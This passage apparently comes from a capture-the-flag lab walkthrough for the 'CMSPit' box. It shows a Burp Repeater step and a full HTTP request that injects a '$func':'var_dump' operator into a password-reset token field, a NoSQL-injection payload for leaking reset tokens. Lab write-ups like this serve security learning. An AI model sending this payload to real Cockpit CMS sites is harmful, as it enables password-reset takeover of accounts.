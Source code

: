 ```
```

![Untitled](/assets/CMSPit%20images/Untitled%206.png)

Send to **Repeater** tab and modify the request within:

- `/auth/requestreset/` → `/auth/resetpassword`
- `"user":"skidy"` → `”token”:{”$func”:”var_dump”}`

```
POST /auth/resetpassword HTTP/1.1
Host: cmspit.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 16
Origin: http://cmspit.thm
Connection: close
Referer: http://cmspit.thm/auth/forgotpassword
Cookie: 8071dec2be26139e39a170762581c00f=pcmp2gb5ickiqe9v57dnh33sts

{"token":{
"$func":"var_dump"
}}
```
